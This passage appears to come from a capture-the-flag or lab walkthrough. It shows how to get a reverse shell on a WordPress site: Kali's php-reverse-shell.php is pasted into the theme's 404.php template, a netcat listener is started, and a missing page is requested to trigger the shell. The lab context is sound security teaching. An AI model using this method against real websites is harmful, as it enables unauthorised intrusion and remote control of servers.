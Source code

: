 ![alt text](files/wordpress_02.png "WordPress")

We can make use of the `/usr/share/webshells/php/php-reverse-shell.php` which is available by default on `Kali`. But we need to be careful. Do not copy the whole content of that `php-reverse-shell.php` file and paste that like is in between the existing `PHP` code of that `404.php` template file. We need to mind the opening `PHP` tag. 

The easiest way is to copy the whole content of the `php-reverse-shell.php` and pasting it before the first line of that `404.php` file. Then I add plenty of new lines after that to separate both contents, in case if I need to clean that up later. Also, an important point, is to adjust the IP and port to match our host computer. Finally, press the `Update File` button.

Now we need to set a listener on our host machine.

````commandline
nc -lnvp 4444
````

Now we can point our browser to some random non-existent page on the `WordPress` site and our reverse shell will execute and connect to the host machine. Something like <http://10.10.86.15/?p=9999>. Not <http://10.10.86.15/random< as this will trigger the `Apache 404` and not the `WordPress` one.
